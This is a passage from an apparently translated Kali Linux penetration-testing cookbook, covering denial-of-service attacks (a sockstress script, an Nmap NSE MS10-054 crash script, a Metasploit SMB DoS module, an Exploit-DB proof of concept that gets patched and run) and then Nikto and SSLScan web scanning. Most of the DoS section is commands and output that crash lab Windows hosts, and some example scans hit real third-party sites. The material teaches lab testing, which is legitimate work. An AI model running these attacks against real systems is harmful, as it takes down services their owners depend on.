thread.start_new_thread(sockstress, (target,dstport))
```

## 让它持续运行（……或者直到按下 Ctrl+C）

```python
while 0 == 0:

sleep(1)
```

340

*第 6 章*

注意，此脚本有两个主要功能，包括 `sockstress` 攻击函数和独立的 `graceful_shutdown` 函数。需要一个独立的函数来进行关闭，是因为为了脚本正常运行，脚本必须修改本地的 `iptables` 规则。这种更改对于使用 `Scapy` 与远程主机完成 TCP 连接是必要的。

这一点的合理性已经在*第 3 章，端口扫描*中的*使用 Scapy 进行扫描*教程中得到了更详细的讨论。在执行脚本之前，我们可以使用 `netstat` 和 `free` 工具来获取已建立连接和内存使用的基准数据：

**msfadmin@metasploitable:~$ netstat | grep ESTABLISHED**

**tcp6 0 0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826**

**ESTABLISHED**

**udp 0 0 localhost:32840 localhost:32840**

**ESTABLISHED**

**msfadmin@metasploitable:~$ free -m**

**total used free shared cached**
**Mem: 503 157 345 0 13 54**
**-/+ buffers/cache: 89 413**
**Swap: 0 0 0**

通过使用 `netstat` 并将输出通过到 `grep` 函数仅提取已建立的连接，我们可以看到只存在两个连接。我们还可以使用 `free` 工具查看当前内存使用情况。`-m` 将以兆字节为单位返回数值。在确定了建立连接和可用内存的基准后，我们可以对目标服务器发起攻击：

**root@KaliLinux:~# ./sock_stress.py**

**用法 - ./sock_stress.py [目标 IP] [端口号] [线程数]**

**示例 - ./sock_stress.py 10.0.0.5 21 20**

**示例将对 10.0.0.5 上的 FTP（端口 21）服务执行 20 倍多线程 sock-stress DoS 攻击**

*****注意*****

**确保你针对的端口在建立连接时有响应**

**root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20**

**猛攻已经开始……使用 Ctrl+C 停止攻击**

341

*拒绝服务 (DoS)*

在不提供任何参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址、sock stress DoS 发送到的端口号，以及用于执行 sock stress DoS 的线程数或并发进程数。每个线程开始时都会生成一个 0 到 65,535 之间的整数。此范围代表可以分配给源端口的所有可能值。TCP 头部中定义源地址和目的端口地址的部分长度均为 16 位。每个位可以保留 1 或 0 的值。因此，有 $2^{16}$ 或 65,536 个可能的 TCP 端口地址。单个源端口只能持有一个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大幅提高攻击性能。一旦攻击开始，我们可以通过检查目标服务器上已建立的活动连接来验证其是否正在工作：

**msfadmin@metasploitable:~$ netstat | grep ESTABLISHED**

（此处省略大量重复的 netstat 输出行，内容与原文一致）


由一个 Nmap NSE DoS 脚本处理的漏洞服务。在提供的示例中，使用了一个 Windows XP 实例来实现此目的。有关设置 Windows 系统的更多信息，请参考本书书中*第 1 章*、*入门*中的*安装 Windows Server* 配方。

### 如何操作……

在使用 Nmap NSE 脚本进行 DoS 测试之前，我们需要先识别出哪些可用的 DoS 脚本。在 Nmap NSE 脚本目录下有一个可搜索的 `script.db` 文件，可以用它识别任何给定类别的脚本：

```bash
root@KaliLinux:~# grep dos /usr/share/nmap/scripts/script.db | cut -d'"' -f 2
```

- `broadcast-avahi-dos.nse`
- `http-slowloris.nse`
- `ipv6-ra-flood.nse`
- `smb-check-vulns.nse`
- `smb-flood.nse`
- `smb-vuln-ms10-054.nse`

通过在 `script.db` 文件中搜索 `dos` 并将输出通过至 `cut` 函数，我们可以提取出可用的脚本。通过读取任何一个脚本的开头，我们通常可以找到很多有用信息：

```bash
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-054.nse | more
```

```ruby
local bin = require "bin"
local msrpc = require "msrpc"
local smb = require "smb"
local string = require "string"
local vulns = require "vulns"
local stdnse = require "stdnse"
description = [[
测试目标机器是否受到 ms10-054 SMB 远程内存损坏漏洞的影响。
漏洞机器将崩溃并导致蓝屏 (BSOD)。
脚本要求至少对远程机器上的共享具有 READ 权限。
可以使用来宾凭据或指定的用户名/密码。
]]
```

为了从头到尾读取脚本，我们应该对文件使用 `cat` 命令，然后将输出通过至 `more` 实用。脚本的顶部描述了它所利用的漏洞以及系统存在漏洞必须满足的条件。它还解释了该利用将导致蓝屏（BSOD）DoS。通过继续向下滚动，我们可以找到更多有用信息：

```text
-- @usage nmap -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe
-- @args unsafe 运行脚本所需的参数，“安全开关”，用于防止意外运行
-- @args smb-vuln-ms10-054.share 要要连接的共享（默认为 SharedDocs）
-- @output
-- -- Host script results:
-- | smb-vuln-ms10-054:
-- | VULNERABLE:
-- | SMB 远程内存损坏漏洞
-- | State: VULNERABLE
-- | IDs: CVE:CVE-2010-2550
-- | Risk factor: HIGH CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/A:C)
-- | Description:
-- | Microsoft Windows XP SP2 和 SP3, Windows Server 2003 SP2, Windows Vista SP1 和 SP2, Windows Server 2008 Gold, SP2, 和 R2, 以及 Windows 7 中的 SMB 服务器未能正确验证 SMB 请求中的字段，这允许远程攻击者通过构造的 SMB 数据包执行任意代码，即“SMB 池溢出漏洞”。
```

在脚本的更下方，我们可以找到脚本用法描述以及可以随脚本提供的参数。它还提供了有关其所利用漏洞的更多细节。要执行该脚本，我们需要使用 Nmap 中的 `--script` 选项：

```bash
root@KaliLinux:~# nmap -p 445 172.16.36.134 --script=smb-vuln-ms10-054 --script-args unsafe=1
```

```text
Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-28 23:45 EST
Nmap scan report for 172.16.36.134
Host is up (0.00038s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
| smb-vuln-ms10-054:
| VULNERABLE:
| SMB 远程内存损坏漏洞
| State: VULNERABLE
| IDs: CVE:CVE-2010-2550
| Risk factor: HIGH CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/A:C)
| Description:
| Microsoft Windows XP SP2 和 SP3, Windows Server 2003 SP2, Windows Vista SP1 和 SP2, Windows Server 2008 Gold, SP2, 和 R2, 以及 Windows 7 中的 SMB 服务器未能正确验证 SMB 请求中的字段，这允许远程攻击者通过构造的 SMB 数据包执行任意代码，即“SMB 池溢出漏洞”。
```

在提供的示例中，Nmap 被指向仅扫描 TCP 端口 `445`，该端口与该漏洞相关。`--script` 选项与指定要使用脚本的参数结合使用。传递了一个的脚本参数来表示不安全的扫描是可以接受的。该参数被描述为安全开关，用于授权执行不安全的扫描。

### 工作原理……

Metploit 框架有许多可用于 DoS 攻击的辅助模块。通常，缓冲区溢出会导致拒绝服务，因为它们会导致数据加载到内存的非预期段，从而破坏执行流。

### 准备工作

要使用 Metploit 辅助模块执行 DoS 测试，我们需要识别哪些可用模块。可以通过浏览目录树来识别相关模块：

```bash
root@KaliLinux:~# cd /usr/share/metasploit-framework/modules/auxiliary/dos/
```

```text
cisco dhcp freebsd hp http mdns ntp pptp samba scada smtp solaris ssl tcp windows wireshark
```

```bash
root@KaliLinux:~# cd windows/
```

```text
appian browser ftp games http llmnr nat rdp smb smtp tftp
```

```bash
root@KaliLinux:~# cd http
```

```text
ms10_065_ii6_asp_dos.rb pi3web_isapi.rb
```

通过浏览 `/modules/auxiliary/dos` 目录，我们可以看到各种类的辅助模块。在提供的示例中，我们已经浏览到了包含 Windows HTTP 拒绝服务利用程序的目录：

```bash
root@KaliLinux:~# cat /usr/share/metasploit-framework/modules/auxiliary/dos/windows/http/ms10_065_ii6_asp_dos.rb | more
```

```ruby
# 此文件是 Metasploit Framework 的，可能受
# 再分发和商业限制。请访问 Metasploit
# 网站获取有关许可和使用条款的更多信息。
# http://metasploit.com/

require 'msf/core'

class Metploit3 < Msf::Auxiliary
include Msf::Exploit::Remote::Tcp
include Msf::Auxiliary::Dos

def initialize(info = {})
  super(update_info(info,
```


'Name' => 'Microsoft IIS 6.0 ASP 栈耗尽拒绝服务',

'Description' => %q{该漏洞允许远程未身份验证的攻击者强制 IIS 服务器无响应状态，直到管理员手动重启 IIS 服务。前提条件是 IIS 托管了 Active Server Pages，并且 ASP 脚本读取了 Post 表单值。},

'Author' =>
[
  'Alligator Security Team',
  'Heyder Andrade <heyder[at]alligatorteam.org>',
  'Leandro Oliveira <leadro[at]alligatorteam.org>'
],
'License' => MSF_LICENSE,
'References' =>
[
  [ 'CVE', '2010-1899' ],
  [ 'OSVDB', '67978'],
  [ 'MSB', 'MS10-065'],
  [ 'EDB', '15167' ]
],
'DisclosureDate' => 'Sep 14 2010'))

349

# 拒绝服务

要从上到尾读取脚本，我们应该对文件使用 `cat` 命令，然后将输出通过到 `more` 工具程序。脚本的顶部描述了它所利用的漏洞以及系统存在漏洞时必须满足的条件。我们也可以在 Metasploit 框架控制台中识别潜在的 DoS 利用程序。要访问它，请在终端中输入 `msfconsole`：

```
root@KaliLinux:~# msfconsole
# cowsay++
____________
< metasploit >
------------
\ ,__,
\ (oo)____
(__) )\
||--|| ***
Large pentest? List, sort, group, tag and search your hosts and services
in Metasploit Pro -- type 'go_pro' to launch it now.
=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --= 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops
msf >
```

一旦打开，可以使用 `search` 命令结合搜索术来识别要使用的潜在利用程序：

```
msf > search dos
```

## 匹配模块

| 名称 | 日期 | 排名 | 描述 |
| :--- | :--- | :--- | :--- |
| auxiliary/admin/webmin/edit_html_fileaccess | 2012-09-06 | normal | Webmin edit_html.cgi 文件参数遍历 任意文件访问 |
| auxiliary/dos/cisco/ios_http_percentpercent | 2000-04-26 | normal | Cisco IOS HTTP GET /%% 请求 拒绝服务 |
| auxiliary/dos/dhcp/isc_dhcpd_clientid | | normal | ISC 零长度 ID 拒绝服务 |
| auxiliary/dos/freebsd/nfsd/nfsd_mount | | normal | FreeBSD RPC 请求 拒绝服务 |
| auxiliary/dos/hp/data_protector_rds | 2011-01-08 | manual | HP Data Protector RDS |
| auxiliary/dos/http/3com_superstack_switch | 2004-06-24 | normal | 3Com SuperStack 拒绝服务 |
| auxiliary/dos/http/apache_mod_isapi | 2010-03-05 | normal | Apache mod_isapi <=2.2.14 悬挂指针 |
| auxiliary/dos/http/apache_range_dos | 2011-08-19 | normal | Apache header DoS (Apache Killer) |
| auxiliary/dos/http/apache_tomcat_transfer_encoding | 2010-07-09 | normal | Apache Transfer-Encoding 信息泄露和 DoS |

在提供的示例中，使用了搜索术 `dos` 来查询数据库。返回了一系列辅助 DoS 模块，并包含了每个模块的相对路径。可以使用此相对路径来缩小搜索范围：

```
msf > search /dos/windows/smb/
```

| 名称 | 日期 | 排名 | 描述 |
| :--- | :--- | :--- | :--- |
| auxiliary/dos/windows/smb/ms05_047_pnp | | normal | Microsoft 插入即用服务注册表溢出 |
| auxiliary/dos/windows/smb/ms06_03_mailslot | 2006-07-11 | normal | Microsoft SRV.SYS Mailslot 损坏 |
| auxiliary/dos/windows/smb/ms06_063_trans | | normal | Microsoft SRV.SYS 管道事务空值 |
| auxiliary/dos/windows/smb/ms09_001_write | | normal | Microsoft SRV.SYS 写入无效 DataOffset |
| auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pid | | normal | Microsoft SRV2.SYS SMB 协商进程 ID 表格解引用 |
| auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff | | normal | Microsoft SRV2.SYS SMB2 注销 远程内核指针解引用 |
| auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop | 2008 | normal | Microsoft Windows 7 / Server R2 SMB 无限循环 |
| auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow | | normal | Microsoft Windows SRV.SYS SrvSmbQueryInformation 池溢出 |
| auxiliary/dos/windows/smb/ms11_019_electbowser | | manual | Microsoft Windows Browser DoS |
| auxiliary/dos/windows/smb/rras_vls_null_deref | 2006-06-14 | normal | Microsoft RRAS InterfaceAdjustVLointers NULL 解引用 |
| auxiliary/dos/windows/smb/vista_negotiate_stop | | normal | Microsoft Vista SP0 SMB 协商协议 DoS |

在查询 `/dos/windows/smb` 的相对路径后，返回的结果仅为该目录下的 Dos 模块。这些目录组织良好，可以有效地搜索与特定平台或服务相关的利用程序。一旦我们决定了使用哪种利用程序，可以使用 `use` 命令和模块的相对路径来选择它：

```
msf > use auxiliary/dos/windows/smb/ms06_063_trans
msf auxiliary(ms06_063_trans) > show options
```

### 模块选项 (auxiliary/dos/windows/smb/ms06_063_trans)

| 名称 | 当前设置 | 是否需要 | 描述 |
| :--- | :--- | :--- | :--- |
| RHOST | | yes | 目标地址 |
| RPORT | 445 | yes | 设置 SMB 服务端口 |

一旦选择了该模块，就可以使用 `show options` 命令来识别和或修改扫描配置。该命令将显示四个列标题，包括名称、当前设置、是否需要和描述。Name 列标识每个变量的名称。Current Setting 列列出了给定变量的现有配置。Required 列标识任何给定变量是否需要值。Description 列描述了每个变量的功能。任何变量的值都可以使用 `set` 命令并通过提供新值作为参数来更改：

```
msf auxiliary(ms06_063_trans) > set RHOST 172.16.36.134
RHOST => 172.16.36.134
msf auxiliary(ms06_063_trans) > show options
```

![

第六章

### 模块选项 (auxiliary/dos/windows/smb/ms06_063_trans)

| 名称 | 当前设置 | 是否需要 | 描述 |
| :--- | :--- | :--- | :--- |
| RHOST | 172.16.36.134 | yes | 目标地址 |
| RPORT | 445 | yes | 设置 SMB 服务端口 |

```
msf auxiliary(ms06_063_trans) > run
[*] 正在连接目标系统...
[*] 正在发送错误的 SMB 请求 1...
[*] 正在发送错误的 SMB 请求 2...
[*] 正在发送错误的 SMB 请求 3...
[*] 正在发送错误的 SMB 请求 4...
[*] 正在发送错误的 SMB 请求 5...
[*] 辅助模块执行完成
```

执行 Metasploit 辅助模块后，会返回一系列消息表示执行了一系列恶意 SMB 事务，并返回最后一条指示模块执行完成的消息。可以通过回到 Windows XP 系统来验证利用成功，该系统已崩溃并现在显示蓝屏（BSOD）：

353

拒绝服务

工作原理……

在本练习中演示的 Metasploit DoS 辅助模块是一个


缓冲区溢出攻击。通常情况下，缓冲区溢出能够导致拒绝服务攻击，因为它可以导致任意数据被加载到非预期的内存段中。这会破坏执行流并导致服务或操作系统的崩溃。

### 使用漏洞数据库进行 DoS 攻击

漏洞数据库（exploit database）是一个针对所有类型平台和服务的公开发布漏洞的集合。漏洞数据库包含许多可以用于执行 DoS 攻击的漏洞。

本特定教程将演示如何在漏洞数据库中定位 DoS 漏洞、识别这些漏洞的使用方法、进行必要的修改并执行它们。

### 准备工作

要使用漏洞数据库执行 DoS 攻击，你需要一个运行着被 Metasploit DoS 辅助模块所针对的漏洞服务的系统。在提供的示例中，使用了 Windows XP 实例来实现此目的。有关设置 Windows 系统的更多信息，请参阅本书第 `1` 章 `入门` 部分的 `安装 Windows Server` 教程。

### 如何操作……

在利用漏洞数据库进行 DoS 测试之前，我们需要识别出哪些是可用的 DoS 漏洞。你可以在网上通过 `http://www.exploit-db.com` 找到整个漏洞数据库。或者，其副本也本地存储在 Kali Linux 文件系统中。在 `exploitdb` 目录内有一个 `files.csv` 文件，其中包含了所有内容的目录。该文件可以使用 `grep` 搜索关键词来帮助定位可用漏洞：

```bash
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv
```

```bash
20,platforms/windows/remote/20.txt,"MS Windows SMB Authentication Remote Exploit",2003-04-25,"Haamed Gheibi",windows,remote,139
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0
4478,platforms/linux/remote/4478.c,"smbftpd 0.96 SMBDirList-function Remote Format String Exploit",2007-10-01,"Jerry Illikainen",linux,remote,21
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0
```

在提供的示例中，使用了 `grep` 函数在 `files.csv` 文件中搜索任何可以通过 `SMB` 单词识别的漏洞数据库内容。也可以通过将输出管道到另一个 `grep` 函数并搜索额外的术语来进一步缩小搜索范围：

```bash
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos
```

```bash
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0
12273,platforms/windows/dos/12273.py,"Windows 7/2008R2 SMB Client Trans2 Stack Overflow 10-020 PoC",2010-04-17,"Laurent Gaffie",windows,dos,0
```

在提供的示例中，连续连续使用了两个独立的 `grep` 函数来搜索任何与 SMB 服务相关的 DoS 漏洞：

```bash
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos | grep py | grep -v "Windows 7"
```

```bash
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0
12524,platforms/windows/dos/12524.py,"Windows SMB2 Negotiate Protocol (0x72) Response DOS",2010-05-07,"Jelmer de Hen",windows,dos,0
14607,platforms/windows/dos/14607.py,"Microsoft SMB Server Trans2 Zero Size Pool Alloc (MS10-054)",2010-08-10,"Laurent Gaffie",windows,dos,0
```

我们可以继续缩小搜索结果以使其尽可能具体。在提供的示例中，我们查找了任何针对 SMB 服务的 Python DoS 脚本，但排除了针对 Windows 7 平台的脚本。`grep` 中的 `-v` 选项可以从结果中排除内容。通常最好是将所需的漏洞复制到另一个位置，以免修改漏洞数据库目录的内容：

```bash
root@KaliLinux:~# mkdir smb_exploit
root@KaliLinux:~# cd smb_exploit/
root@KaliLinux:~/smb_exploit# cp /usr/share/exploitdb/platforms/windows/dos/14607.py /root/smb_exploit/
root@KaliLinux:~/smb_exploit# ls
14607.py
```

在提供的示例中，为脚本创建了一个新目录。然后根据漏洞数据库目录位置可以推断出的绝对路径以及 `files.csv` 文件中定义的相对路径复制了脚本。一旦移动完成后，可以使用 `cat` 命令从上到下读取脚本，然后将脚本内容管道到 `more` 实用程序：

```bash
root@KaliLinux:~/smb_exploit# cat 14607.py | more
```

```python
#!/usr/bin/env python
import sys,struct,socket
from socket import ***
if len(sys.argv)<=2:
    print '###############################################################'
    print '########'
    print '# MS10-054 Proof Of Concept by Laurent Gaffie'
    print '# Usage: python '+sys.argv[0]+' TARGET SHARE-NAME (Nobackslash)'
    print '# Example: python '+sys.argv[0]+' 192.168.8.101 users'
    print '# http://g-laurent.blogspot.com/'
    print '# http://twitter.com/laurentgaffie'
    print '# Email: laurent.gaffie{at}gmail{dot}com'
    print '###############################################################'
    print '################################'
```

与 NSE 脚本和 Metasploit 辅助模块不同，漏洞数据库中的脚本没有统一的格式。因此，处理漏洞有时会很棘手。尽管如此，简单查看脚本内容的注释或用法说明通常会有帮助。在提供的示例中，我们可以看到脚本中列出了用法，并且如果没有提供足够的参数，还会将其打印给用户。评估之后，就可以执行该脚本。

```bash
root@KaliLinux:~/smb_exploit# ./14607.py
```

```text
./14607.py: line 1: ?#!/usr/bin/env: No such file or directory
import.im6: unable to open X server `' @ error/import.c/**ImportImageCommand/368.
from: can't read /var/mail/socket
./14607.py: line 4: $'\r': command not found
./14607.py: line 5: syntax error near unexpected token `sys.argv'
'/14607.py: line 5: ìf len(sys.argv)<=2:
```

然而，在尝试执行脚本后由于缺乏标准且某些脚本只是概念证明，通常需要对这些脚本进行调整。我们需要返回文本编辑器并尝试确定来源。第一个错误指示脚本开头列出的 Python 解释器位置存在问题。必须将其更改为 Kali Linux 文件系统中的解释器：

```python
#!/usr/bin/python
import sys,struct,socket
```


在解决每个问题后，尝试重新运行脚本通常是一个好主意，因为有时修复一个问题就会消除多个执行错误。在这种情况下，在更改 Python 解释器的位置后，我们能够成功运行脚本：

```
root@KaliLinux:~/smb_exploit# ./14607.py 172.16.36.134 users
```

[+]Negotiate Protocol Request sent
[+]Malformed Trans2 packet sent
[+]The target should be down now

当脚本运行时，会返回几消息以标识脚本执行的进度。最后的消息表示恶意负载已送达，服务器应该已经崩溃。可以通过查看 Windows 服务器来验证脚本的成功，该服务器现在已经崩溃并显示蓝屏（BSOD）：

357

### 拒绝服务

### 工作原理……
本练习中演示的漏洞数据库 DoS 脚本是缓冲区溢出攻击的一个示例。通常来说，缓冲区溢出能够导致拒绝服务，因为它们会导致任意数据被加载到内存的非预期段中。这可能会破坏执行流并导致服务或操作系统的崩溃。

358

7

### Web 应用扫描
在过去的几年里，我们看到有关大型企业和政府数据泄露的媒体报道日益增加。而且，随着人们安全意识的提高，通过利用标准边界服务渗透组织的网络变得越来越困难。与这些服务相关的已知漏洞通常很快就会被修复，留的攻击面很小。相反，Web 应用程序通常包含自定义代码，这些代码通常不会像独立供应商提供的网络服务那样经历同样的公开审查。Web 应用程序通常是组织边界最薄弱的环节，因此对这些服务进行适当的扫描和评估至关重要。本章将包含执行 Web 应用漏洞扫描的以下方案：

- 使用 Nikto 进行 Web 应用扫描
- 使用 SSLScan 进行 SSL/TLS 扫描
- 使用 SSLyze 进行 SSL/TLS 扫描
- 使用 Burp Suite 定义 Web 应用目标
- 使用 Burp Suite 渗透工具
- 使用 Burp Suite Proxy
- 使用 Burp Suite 蜘蛛
- 使用 Burp Suite Web 应用扫描器
- 使用 Burp Suite Intruder
- 使用 Burp Suite Comparer
- 使用 Burp Suite Repeater
- 使用 Burp Suite Decoder
- Web 应用扫描
- 使用 Burp Suite Sequencer
- 使用 Burp Suite Extender
- 使用 sqlmap 进行 GET 方法 SQL 注入
- 使用 sqlmap 进行 POST 方法 SQL 注入
- 使用 sqlmap 进行请求捕获 SQL 注入
- 自动化 CSRF 测试
- 使用 HTTP 流量验证命令注入漏洞
- 使用 ICMP 流量验证命令注入漏洞

在具体介绍列出的每个方案之前，我们将讨论关于 Burp Suite 和 `sqlmap` 的一些通用信息，因为这两个每个工具在本章的多个方案中都会被提到。Burp Suite 是 Kali Linux 中一个基于 Java 的图形化工具，用于记录、拦截和操作客户端浏览器与远程 Web 服务之间的请求和响应。它可能是 Web 应用渗透测试最强大的工具之一，因为它允许攻击者完全控制其系统与远程 Web 服务器的通信方式。这允许操纵原本由用户浏览器或会话定义的大量信息。`Sqlmap` 是 Kali Linux 中的一个集成命令行工具，通过自动化整个过程极大地减少了利用 SQL 注入漏洞所需的工作。`Sqlmap` 的工作原理是从大量的已知 SQL 注入查询列表中提交请求。多年来经过高度优化，可以根据之前查询的响应智能地修改注入尝试。

### 使用 Nikto 进行 Web 应用扫描
Nikto 是 Kali Linux 中的一个命令行工具，可用于评估 Web 应用的已知安全问题。Nikto 会爬取目标应用程序，还会发送许多预配置的请求，尝试识别应用程序上存在的潜在危险脚本和文件。在本方案中，我们将讨论如何针对 Web 应用运行 `Nikto` 以及如何解释结果。

### 准备工作
要使用 `Nikto` 对目标进行 Web 应用分析，你需要一个运行着一个或多个 Web 应用的远程系统。在提供的示例中，使用了一个 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 `80` 上运行了几个预装的漏洞 Web 应用程序。有关设置 `Metasploitable2` 的更多信息，请参考本书第一章“入门”中的“*安装 Metasploitable2*”方案。

360

*第 7 章*

### 如何操作……
运行 `Nikto` 相关的语法和使用复杂性很大程度上取决于所针对的应用类型。要查看该工具用法和语法的概述，请使用 `nikto -help` 命令。在提供的第一个示例中，对 `google.com` 执行了扫描。`-host` 参数可以指定被扫描目标的主机机值。`-port` 定义了 Web 服务运行的端口。`-ssl` 指示 `Nikto` 在扫描之前与目标 Web 服务器建立 SSL/TLS 会话，如下：

```
root@KaliLinux:~# nikto -host google.com -port 443 -ssl
- Nikto v2.1.4
------------------------------------------------------------------------
---
+ Target IP: 74.125.229.161
+ Target Hostname: google.com
+ Target Port: 443
------------------------------------------------------------------------
---
+ SSL Info: Subject: /C=US/ST=California/L=Mountain View/O=Google
/CN=*.google.com
Ciphers: ECDHE-RSA-AES128-GCM-SHA256
Issuer: /C=US/O=Google Inc/CN=Google Internet
Authority G2
+ Start Time: 2014-03-30 02:30:10
------------------------------------------------------------------------
---
+ Server: gws
+ Root page / redirects to: https://www.google.com/
+ Server banner has changed from gws to GFE/2.0, this may suggest a WAF
or load balancer is in place
****TRUNCATED} ****
```

或者，`-host` 参数也可以用于定义被扫描目标系统的 IP 地址。`-nossl` 参数可以指示 `Nikto` 不使用任何传输层安全。`-vhost` 参数可以指定 HTTP 请求中 host 标头的值。这在单个 IP 地址上托管了多个虚拟主机名的情况下，这特别有帮助。请看以下示例：

```
root@KaliLinux:~# nikto -host 83.166.169.228 -port 80 -nossl -vhost packtpub.com
- Nikto v2.1.4
------------------------------------------------------------------------
---
+ Target IP: 83.166.169.228
+ Target Hostname: packtpub.com
+ Target Port: 80
+ Start Time: 2014-03-30 02:40:29
------------------------------------------------------------------------
---
+ Server: Varnish
+ Root page / redirects to: http://www.packtpub.com/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-5737: WebLogic may reveal its internal IP or hostname in the Location header. The value is "http://www.packtpub.com."
```

在前面的示例中，针对托管在 `Metasploitable2` 系统上的 Web 服务执行了 `Nikto` 扫描。没有使用 `-port` 参数是因为该 Web 服务托管在


在 `TCP` 端口 `80` 上，这是 `Nikto` 的默认扫描端口。此外，没有使用 `-nossl` 参数，因为默认情况下，`Nikto` 不会尝试端口 `80` 上尝试 SSL/TLS 连接。

考虑以下示例：

```
root@KaliLinux:~# nikto -host 172.16.36.135
- Nikto v2.1.4
------------------------------------------------------------------------
---
+ Target IP: 172.16.36.135
+ Target Hostname: 172.16.36.135
+ Target Port: 80
+ Start Time: 2014-03-29 23:54:28
------------------------------------------------------------------------
---
+ Server: Apache/2.2.8 (Ubuntu) DAV/2
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.2.17). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3233: /phpinfo.php: Contains PHP configuration information
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-12184: /index.php?=PHPB8B5F2A-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpMyAdmin/: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6448 items checked: 1 error(s) and 13 item(s) reported on remote host
+ End Time: 2014-03-29 23:55:00 (32 seconds)
------------------------------------------------------------------------
---
+ 1 host(s) tested
```

`Nikto` 对 Metasploitable2 Web 扫描结果显示了某些 `Nikto` 经常识别出的项目。这些项目包括风险的 HTTP 方法、默认安装文件、暴露的目录列表、敏感信息泄露以及应该限制访问的文件。了解这些文件通常对于寻找获取服务器权限的方法或识别漏洞非常有帮助。

### 工作原理……

`Nikto` 通过引用 `robots.txt` 文件、爬取应用程序表面以及循环遍历已知文件列表来识别潜在感兴趣的文件，这些文件包含敏感信息、易漏洞内容，或者由于其呈现的内容和/或功能特性而应该被限制访问。

### 使用 SSLScan 进行 SSL/TLS 扫描

`SSLScan` 是 Kali Linux 中的一个集成命令行工具，可评估远程 Web 服务的 SSL/TLS 支持的安全性。在本教程中，我们将讨论如何针对 Web 运行 `SSLScan`，以及如何解释和/或处理输出结果。

### 准备工作

要使用 `SSLScan` 对目标进行 SSL/TLS 分析，你需要一个运行启用 SSL 或 TLS 的 Web 服务的远程系统。在提供的示例中，使用了 Google 和 Metasploitable2 实例的组合来执行此任务。有关如何设置 Metasploitable2 的更多信息，请参阅本书书中*第 1 章* *入门* 部分中的*安装 Metasploitable2* 教程。

### 如何操作……

`SSLScan` 可以是对目标 Web 服务器的 SSL/TLS 配置进行精简分析的有效工具。要对具有注册域名的 Web 服务器进行基本扫描，只需将域名作为参数传递给它，如下：

```
root@KaliLinux:~# sslscan google.com
```

```
___ ___| |___ ___ __ _ _ __
/ __/ __| / __|/ __/ _` | '_ \
\__ \__ \ \__ \ (_| (_| | | | |
|___/___/_|___/\___\__,_|_| |_|
Version 1.8.2
http://www.titania.co.uk
Copyright Ian Ventura-Whiting 2009
Testing SSL server google.com on port 443
Supported Server Cipher(s):
Failed SSLv3 256 bits ECDHE-RSA-AES256-GCM-SHA384
Failed SSLv3 256 bits ECDHE-ECDSA-AES256-GCM-SHA384
Failed SSLv3 256 bits ECDHE-RSA-AES256-SHA384
Failed SSLv3 256 bits ECDHE-ECDSA-AES256-SHA384
Accepted SSLv3 256 bits ECDHE-RSA-AES256-SHA
Rejected SSLv3 256 bits ECDHE-ECDSA-AES256-SHA
Rejected SSLv3 256 bits SRP-DSS-AES-256-CBC-SHA
Rejected SSLv3 256 bits SRP-RSA-AES-256-CBC-SHA
Failed SSLv3 256 bits DHE-DSS-AES256-GCM-SHA384
Failed SSLv3 256 bits DHE-RSA-AES256-GCM-SHA384
